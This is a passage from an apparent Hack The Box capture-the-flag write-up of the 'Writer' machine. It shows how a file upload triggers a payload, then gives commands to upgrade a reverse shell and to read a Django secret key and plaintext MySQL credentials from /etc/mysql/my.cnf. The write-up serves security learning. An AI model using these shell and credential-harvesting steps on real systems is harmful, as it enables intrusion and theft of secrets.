 The file has to actually exist on the server for the call `urllib.request.urlretrieve`
to return. So we upload the empty file first, as a header for an existing story:

![][upload-image]

And check `http://writer.htb/static/img`:

![][check-payload]

Next, we submit the form a second time, with the url of the image we just uploaded:

![][trigger-payload]

Upgrade the shell:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash");'
# Ctrl + z
stty echo -raw
fg
```

## Login as kyle

Browsing the source directory, we find a development folder: `/var/www/writer2_project`.

```python
SECRET_KEY = 'q2!1iwm^9jlx@4u66k(ke!_=(5uacvl@%%(g&6=$$m1u5n=*4-'
```

```python
DATABASES = {
    'default': {
        'ENGINE': 'django.db.backends.mysql',
        'OPTIONS': {
            'read_default_file': '/etc/mysql/my.cnf',
        },
    }
}
```

```bash
cat /etc/mysql/my.cnf
# !includedir /etc/mysql/conf.d/
# !includedir /etc/mysql/mariadb.conf.d/

# [client]
# database = dev
# user = djangouser
# password = DjangoSuperPassword
```

I missed the last lines at first: my reverse shell didn't have enough lines
to display it in vim... Make sure to adjust the number of rows and columns of
the reverse shell:


[author-profile]: https://app.hackthebox.eu/users/114053
[check-payload]: images/check-payload.png
[hacktricks-smtp]: https://book.hacktricks.xyz/pentesting/pentesting-smtp
[sqli]: images/sqli.png
[trigger-payload]: images/trigger-payload.png
[upload-image]: images/upload-image.png